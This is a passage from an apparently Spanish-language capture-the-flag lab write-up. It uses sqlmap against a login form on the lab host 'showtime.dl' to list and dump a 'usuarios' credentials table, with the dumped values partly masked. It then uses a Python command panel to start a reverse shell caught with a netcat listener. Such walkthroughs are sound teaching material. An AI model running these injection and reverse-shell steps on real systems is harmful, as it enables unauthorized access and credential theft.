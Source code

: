 Y luego hallamos una tabla llamada `usuarios`  asi que ingresamos

```
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

`sqlmap -u http://showtime.dl/login_page/index.php --forms --batch --dbs -D users -T usuarios -columns`

* **-T usuarios**: Indica que deseas trabajar con la tabla llamada "usuarios".
* **--columns**: Solicita que sqlmap liste las columnas de la tabla especificada.

```
Database: users
Table: usuarios
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int unsigned |
| password | varchar(50)  |
| username | varchar(50)  |
+----------+--------------+
```

Y entonces GUALA ahora solo es dumpear la tabla para así obtener las credenciales

`sqlmap -u http://showtime.dl/login_page/index.php --forms --batch --dbs -D users -T usuarios -columns --dump`

* **--dump**: Extrae y muestra todos los registros de la tabla "usuarios".

```
Database: users
Table: usuarios
[3 entries]
+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | xxxxx65xxxxxx        | lxxxs    |
| 2  | 1xxxx6123456         | sxxxxxgo |
| 3  | Mxxxxxxxxxxxxckeable | joxxxxe  |
+----+----------------------+----------+
```

Una vez con estas credenciales vamos intentar ingresar ala pagina para ver que hay y encontramos un  panel de Administración donde podemos correr comandos Python.

<figure><img src="../../.gitbook/assets/image (9).png" alt="" width="321"><figcaption></figcaption></figure>

Ejecutamos nuestra revershell con python mientras en una terminal tenemos nuestro puerto ala espera con `nc -nlvp 443`
